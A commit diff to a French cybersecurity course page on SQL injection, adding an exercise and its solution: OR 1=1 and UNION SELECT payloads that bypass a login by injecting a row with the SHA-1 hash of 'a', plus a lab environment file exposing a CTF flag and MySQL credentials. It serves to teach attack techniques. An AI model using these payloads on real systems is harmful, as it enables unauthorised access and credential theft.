

Before and after one commit to webdevproformation/greta92-secu-avril2026, a Markdown page: jour05/01-injection-sql.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
exo sql injection

````diff
--- a/jour05/01-injection-sql.md
+++ b/jour05/01-injection-sql.md
@@ -178,3 +178,29 @@ toto' OR 1 --
 1\' OR 1 --
 
 https://greta-formation-cyber.up.railway.app
+
+# Exo Cyrhade
+
+```sql
+SELECT id, email, first_name, last_name, password FROM users WHERE email='**'
+SELECT id, email, first_name, last_name, password FROM users WHERE email='' OR 1=1 LIMIT 1,1 -- -'
+SELECT id, email, first_name, last_name, password FROM users WHERE email='' OR 1=1 UNION SELECT 1,2,3,4,5 LIMIT 1,1  -- -'
+```
+
+# Solution
+
+```sql
+SELECT id, email, first_name, last_name, password FROM users WHERE email='' UNION SELECT 1,2,3,4,'86f7e437faa5a7fce15d1ddcb9eaeaea377667b8' -- -'
+
+et password 'a' => sha1('a') == "86f7e437faa5a7fce15d1ddcb9eaeaea377667b8"
+```
+
+```txt
+APP_ENV=dev
+DEFAULT_CTF_FLAG=862e6c1bcba9334d52af702907c50285ed8e42a1
+
+MYSQL_HOST=db
+MYSQL_DBNAME=agence_immo
+MYSQL_USER=immo_user
+MYSQL_PASS=simpleSqlPass
+```
````
